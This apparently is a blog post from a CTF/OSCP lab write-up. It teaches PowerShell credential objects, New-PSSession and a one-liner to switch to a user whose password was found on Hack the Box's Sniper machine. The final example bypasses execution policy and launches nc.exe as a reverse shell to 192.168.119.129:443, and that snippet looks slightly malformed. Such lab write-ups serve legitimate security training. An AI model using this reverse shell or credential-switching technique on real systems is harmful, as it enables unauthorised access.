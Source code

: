 ```yaml
---
layout: post
title:  "Powershell For Penetration Testers Switching Users"
author: nanobyte
date:   2020-06-01
description: PowerShell for Penetration Testing, and how to use credentials to switch users
tags: PowerShell
---
```


While completing Hack the Box's Sniper machine, I came across the need to have to switch to a different user. Credentials were discovered in a db.php file, and there was no way to login as that user using external tools such as Evil-WinRM. However, thanks to PowerShell, there is a simple way to quickly write a script to store these credentials in variables, and enter a new PowerShell session to that user. To begin, the credentials discovered were Chris:36mEAhz/B8xQ~2VM. To start out, the first variables I needed to set were the username and password:

{% highlight bash linenos %}
$username='Chris'
$password='36mEAhz/B8xQ~2VM'
{% endhighlight %}

Now that I had the credentials stored, I could not pass these credentials as plain text. PowerShell is special when it comes to handling passwords; it requires that you use a secure string when passing passwords for accounts. This can be completed using PowerShells ConvertTo-SecureString. To find out more about this, please visit <a href="https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.security/convertto-securestring?view=powershell-7" target="_blank">docs.Microsoft.com</a>. To secure the password, I made a new variable `$securePassword` and secured the `$password` string:

{% highlight bash linenos %}
$username='Chris'
$password='36mEAhz/B8xQ~2VM'
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force
{% endhighlight %}

Now, I had the beginning parts of my script complete. It has taken basic user credentials and stored them securely to pass for use to enter into our new session. The next stage is creating a `$credential` variable and using PowerShell's New-Object cmdlet to create a new .NET framework object for the credentials. In PowerShell, objects are "things" that the language can "consume", and have their own properties. In my case, I was creating a new `$credential` object for PowerShell to "use" that consist of several properties. We can see these properties coming up. To make this object, I added the following command to our script:

{% highlight bash linenos %}
$username='Chris'
$password='36mEAhz/B8xQ~2VM'
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force
$credential = New-Object System.Management.Automation.PSCredential ($username, $securePassword)
{% endhighlight %}

With that I had created our object containing Chris' credentials! At this point, I was able to check to make sure that the credentials are properly stored. PowerShell provides a GetNetworkCredentials method to verify this. I simply called this method on the new credentials object, along with format-list. PowerShell's format-list is a powerful output tool, which displays a tabled list of properties. To output all the properties, we include the star symbol after the cmdlet:

{% highlight bash linenos %}
$username='Chris'
$password='36mEAhz/B8xQ~2VM'
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force
$credential = New-Object System.Management.Automation.PSCredential ($username, $securePassword)
$credential.GetNetworkCredential() | Format-List *
{% endhighlight %}

And as output, we should see the proper credentials returned in a PowerShell formatted list:

{% highlight bash linenos %}
UserName       : Chris
Password       : 36mEAhz/B8xQ~2VM
SecurePassword : System.Security.SecureString
{% endhighlight %}

Finally, I then entered into a new PowerShell session. This is completed by first using the New-PSSession cmdlet. This cmdlet allows us to create a new session on a local or remote computer. I then passed the stored secure credentials to this new session! And once passed, I piped to PowerShell's Enter-PSSession cmdlet to enter into the session:

{% highlight bash linenos %}
$username='Chris'
$password='36mEAhz/B8xQ~2VM'
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force
$credential = New-Object System.Management.Automation.PSCredential ($username, $securePassword)
$credential.GetNetworkCredential() | Format-List *
New-PSSession -Credential $credential | Enter-PSSession
{% endhighlight %}

And with that, I had properly created a simple script to switch into a user PowerShell session, when I was unable to log into the machine using external tools! 

Now, to take this one step further. I could use this method and create a PowerShell one-liner. This one liner would look something like this (I have removed the `$credential.GetNetworkCredential() | Format-List *` line to make the line more digestable, but can be placed in for a credential check:

{% highlight bash linenos %}
$username='Chris';$password='36mEAhz/B8xQ~2VM';$securePassword = ConvertTo-SecureString $password -AsPlainText -Force;$credential = New-Object System.Management.Automation.PSCredential ($username, $securePassword);New-PSSession -Credential $credential | Enter-PSSession
{% endhighlight %}

And this would enter into a new PowerShell session as a one-liner. To use this one-liner in another practical example, during OSCP's labs I had to bypass a restricted PowerShell policy and spawn a new process with user credentials, in a one-liner. To start, check out my previous post on <a href="https://ubg-hacking.team/2020/05/23/powershell-for-pentesters-beating-restricted-policies.html" target="_blank">beating PowerShell's restricted policies</a>. To spawn our new process, we would make the following change:

{% highlight bash linenos %}
powershell -exec bypass -nop -c "& {$username='Chris';$password='36mEAhz/B8xQ~2VM';$securePassword = ConvertTo-SecureString $password -AsPlainText -Force;$credential = New-Object System.Management.Automation.PSCredential ($username, $securePassword);$prog='C:\\temp\\nc.exe'; $args='-e cmd.exe 192.168.119.129 443'; Start-Process -Credential $prog $args }"

It is important to pass the `-Credential` object first, before `$prog` and the `$args` variables to work properly. Thanks for reading!

